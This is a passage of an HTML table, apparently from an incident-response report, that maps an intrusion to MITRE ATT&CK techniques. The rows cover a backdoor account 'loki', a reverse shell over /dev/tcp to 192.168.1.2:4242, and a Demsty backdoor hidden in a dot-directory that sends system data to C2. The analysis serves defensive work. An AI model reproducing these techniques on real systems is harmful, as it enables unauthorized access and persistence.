      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Valid Accounts: Local Accounts</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">T1078.003</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">The attacker utilized the newly created backdoor account 'loki' to legitimately log into the system via SSH, bypassing normal anomaly detections.</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Command and Control</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Non-Application Layer Protocol</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">T1095</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">The initial reverse shell payload communicated over a raw TCP socket (/dev/tcp/192.168.1.2/4242) rather than standard HTTP/DNS protocols.</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Defense Evasion</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Hide Artifacts: Hidden Files and Directories</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">T1564.001</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">The attacker concealed the final Demsty backdoor executable inside a hidden Unix directory path (/Users/loki/.local/bin/sysetmd).</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Discovery</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">System Information Discovery</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">T1082</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">As a known behavior of the Demsty malware family identified in the triage, the backdoor collects system metadata (OS version, hardware specs) to send to the C2 server.</td>
    </tr>
  </tbody>
</table>
